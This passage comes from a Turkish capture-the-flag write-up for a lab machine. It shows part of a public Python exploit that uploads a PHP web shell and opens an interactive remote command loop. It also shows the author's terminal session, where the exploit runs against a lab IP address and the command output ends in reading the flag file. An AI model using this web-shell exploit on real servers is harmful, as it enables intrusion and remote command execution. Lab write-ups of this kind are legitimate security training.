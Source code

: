   ```python
      print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
      launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
      if launch_shell.lower() == 'y':
          while True:
              cmd = str(input('RCE $ '))
              if cmd == 'exit':
                  sys.exit(0)
              r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
              print(r.text)
  else:
      if r.status_code == 200:
          print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
      else:
          print('> Web shell failed to upload! The web server may not have write permissions.')
  ```

- Denemeye başlayalım. Önce exploiti indirelim:

  ![](https://i.ibb.co/0y2L4ppT/15-3.png)

- Şimdi çalıştırmaya çabalayalım:

  ![alt text](https://i.ibb.co/ynCMdRCH/15-4.png)

  ```bash
  ┌──(kali㉿kali)-[~/Downloads]
  └─$ python3                                
  Python 3.12.8 (main, Feb  1 2025, 21:32:22) [GCC 14.2.0] on linux
  Type "help", "copyright", "credits" or "license" for more information.
  >>> exit
  Use exit() or Ctrl-D (i.e. EOF) to exit
  >>> exit()
                                                                                                                              
  ┌──(kali㉿kali)-[~/Downloads]
  └─$ python3 47887.py http://10.10.245.228:84/
  > Attempting to upload PHP web shell...
  > Verifying shell upload...
  > Web shell uploaded to http://10.10.245.228:84/bootstrap/img/i2UTHQZO22.php
  > Example command usage: http://10.10.245.228:84/bootstrap/img/i2UTHQZO22.php?cmd=whoami
  > Do you wish to launch a shell here? (y/n): y
  RCE $ id
  uid=100(apache) gid=101(apache) groups=82(www-data),101(apache),101(apache)

  RCE $ cat /opt/flag.txt 
  THM{But_1ts_n0t_my_f4ult!}

  RCE $ 
  ```
